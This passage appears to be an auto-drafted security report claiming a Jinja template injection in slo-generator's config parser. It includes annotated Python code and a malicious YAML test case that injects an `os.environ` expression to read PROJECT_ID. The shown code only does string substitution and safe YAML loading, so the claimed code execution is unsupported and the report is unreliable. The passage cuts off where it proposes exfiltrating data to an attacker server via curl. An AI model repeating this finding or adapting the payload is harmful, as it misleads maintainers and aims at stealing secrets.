     ```python
    def parse_config(
        path: Optional[str] = None, content=None, ctx: os._Environ = os.environ
    ):
        ...
        if ctx:
            content = replace_env_vars(content, ctx) # Vulnerable code: Environment variables are directly substituted into content
        data = yaml.safe_load(content) # YAML is safely loaded, but the content might contain injected Jinja templates
        ...

    def replace_env_vars(content, ctx) -> str:
        """Replace env variables in content from context.
        ...
        """
        match = pattern.findall(content) # Find patterns like ${MY_ENV_VAR}
        if match:
            full_value = content
            for var in match:
                try:
                    full_value = full_value.replace(f"${{{var}}}", ctx[var]) # Vulnerable code: Direct string replacement without sanitization
                except KeyError as exception:
                    ...
            content = full_value
        return content
    ```

- **Security Test Case:**
    1. Create a malicious SLO configuration file (e.g., `malicious_slo.yaml`) with the following content:

    ```yaml
    apiVersion: sre.google.com/v2
    kind: ServiceLevelObjective
    metadata:
      name: malicious-slo
      labels:
        service_name: malicious
        feature_name: injection
        slo_name: exfiltration
    spec:
      description: SLO with Jinja template injection
      backend: cloud_monitoring # or any backend
      method: good_bad_ratio # or any method
      exporters: []
      service_level_indicator:
        filter_good: "project='${PROJECT_ID}' AND metric.type='${'__import__(\"os\").environ'}['PROJECT_ID']}'" # Malicious Jinja template to exfiltrate PROJECT_ID env variable
        filter_valid: "project='${PROJECT_ID}' AND metric.type='test'"
    goal: 0.99
    ```
    2. Set the environment variable `PROJECT_ID` to a sensitive value (e.g., `my-secret-project`).
    3. Run `slo-generator` with the malicious configuration and a valid shared configuration file:
       ```sh
       slo-generator compute -f malicious_slo.yaml -c samples/config.yaml
       ```
    4. Observe the output and logs. If the vulnerability is present, the `slo-generator` might attempt to execute the injected Jinja code.
    5. To further validate exfiltration, modify the malicious template to send data to an attacker-controlled server using `curl` or similar command injection within the Jinja template. For example, modify `filter_good` to:
       ```yaml